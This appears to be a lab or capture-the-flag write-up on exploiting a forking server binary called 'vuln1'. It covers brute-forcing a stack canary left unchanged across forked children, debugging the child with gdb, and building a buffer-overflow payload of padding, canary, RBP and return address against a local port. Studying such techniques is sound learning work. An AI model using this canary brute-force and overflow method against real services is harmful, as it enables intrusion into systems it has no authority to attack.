

# Server Fork with recv() - vuln1

fork without execve() child process = canary does not change </br>
recv() = no null terminator '\x00' which makes canary bruteforce possible
```
gef➤  checksec
[+] checksec for 'vuln1'
Canary                        : Yes →  value: 0x4635cf1eaee08a00
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Partial
```
fork child process = canary does not change
recv() = no null terminator '\x00' which makes canary bruteforce possible

```
# nc 127.0.0.1 1337
Please enter the message you want to send to admin:
aaaaaaaaaaaaaaaaaaaaabbccc
Done.
```
'vuln1' uses libc.so.6 = libc leak, since the program returns after sending input
stripped = no symbol table, so no 'b main', use starti then set break point with ghidra reference
```
# file vuln1 
vuln1: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter 
/lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=cc3b330cabc203d0d813e3114f1515b044a1fd4f,
 stripped

# ldd vuln1 
	linux-vdso.so.1 (0x00007ffc2df84000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd437426000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fd437603000)

```

starti, then check canary
Need to set detach-on-fork, and follow-fork-mode inorder to debug child process


```
gef >

starti
set detach-on-fork off
set follow-fork-mode child
b *0x00005555555555e2
canary
c
```
[https://vagmour.eu/persistence-1/](https://vagmour.eu/persistence-1/)
[]()
[]()

Send Payload (python3):
```
payload = b'a' * 0x34 + b'cccc' 
netcat( '127.0.0.1', 1337 , payload , i  , []  )
```

After sending payload:  (  Canary = 0xfc16151f1fa28700 ) </br>
RBP address highlighted


so payload = 

```
payload = b'a' * 0x34 + b'cccc' + CANARY + RBP + RETURN
```